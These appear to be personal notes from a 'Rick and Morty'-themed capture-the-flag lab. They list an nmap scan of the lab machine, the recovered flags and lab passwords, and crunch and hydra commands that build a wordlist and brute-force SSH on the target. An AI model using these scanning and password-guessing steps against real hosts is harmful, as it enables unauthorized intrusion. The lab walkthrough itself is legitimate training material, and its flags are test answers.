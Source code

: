 nmap things

                └─$ sudo nmap -sV -sS -p- 192.168.42.92
                Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 15:28 IST
                Nmap scan report for 192.168.42.92
                Host is up (0.00050s latency).
                Not shown: 65528 closed tcp ports (reset)
                PORT      STATE SERVICE VERSION
                21/tcp    open  ftp     vsftpd 3.0.3
                22/tcp    open  ssh?
                80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
                9090/tcp  open  http    Cockpit web service 161 or earlier
                13337/tcp open  unknown
                22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
                60000/tcp open  unknown
                3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port22-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(NULL
                SF:,42,"Welcome\x20to\x20Ubuntu\x2014\.04\.5\x20LTS\x20\(GNU/Linux\x204\.4
                SF:\.0-31-generic\x20x86_64\)\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port13337-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port60000-TCP:V=7.93%I=7%D=5/17%Time=6464A55E%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20reverse\x20shell\.\.
                SF:\.\n#\x20")%r(ibm-db2,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20re
                SF:verse\x20shell\.\.\.\n#\x20");
                MAC Address: 08:00:27:B9:12:62 (Oracle VirtualBox virtual NIC)
                Device type: general purpose
                Running: Linux 3.X|4.X
                OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
                OS details: Linux 3.2 - 4.9
                Network Distance: 1 hop
                Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

                OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
                Nmap done: 1 IP address (1 host up) scanned in 43.42 seconds







http 9090 flag:
1.FLAG {THERE IS NO ZEUS, IN YOUR FACE!}



ftp flag:
2.FLAG{Whoa this is unexpected}






command sudo nmap -sV -sS -p- -O 192.168.42.92
Flag from syn fingerprint scan:
3.FLAG:{TheyFoundMyBackDoorMorty}



password from mortys: winter

flag from morty pass
4.FLAG{Yeah d- just don't do it.} 


uname: Summer
pass: winter
5.FLAG{Get off the high road Summer!} 



reverse shell flag:
6.FLAG{Flip the pickle Morty!} - 10 Points


pass:Meeseek
zip:
7.FLAG: {131333}


safe flag:
8.FLAG{And Awwwaaaaayyyy we Go!} - 20 Points


safe hint:
Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.  ---> Flesh Curtains

crunch the password list
crunch 7 7 ,%Flesh -O >>yourfile.txt
crunch 10 10 ,%Curtains -O>>Yourfile.txt


bruteforce using hydra
$ hydra -l RickSanchez -P yourfile.txt 192.168.42.8 ssh  -s  22222



flag root access:
9.FLAG: {Ionic Defibrillator} - 30 points
